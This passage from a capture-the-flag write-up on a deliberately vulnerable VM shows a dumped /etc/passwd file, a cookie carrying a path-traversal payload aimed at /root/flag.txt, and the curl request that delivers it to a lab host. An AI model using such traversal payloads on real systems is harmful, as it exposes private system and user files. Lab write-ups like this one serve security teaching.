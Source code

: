 ```bash
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
</HTML>
root@kali:~#
```

YEAH. That felt pretty darm good! Obviously not knowing all the steps needed to complete this VM, I figured I had come a pretty long way to finding the pot of gold. (Note the users in this file for later) During the enumeration I took a chance to include `/root/flag.txt`:

```bash
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ....//....//....//....//....//root/flag.txt

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
Congratulations of beating Hell.

I hope you enjoyed it and there weren't to many trolls in here for you.
```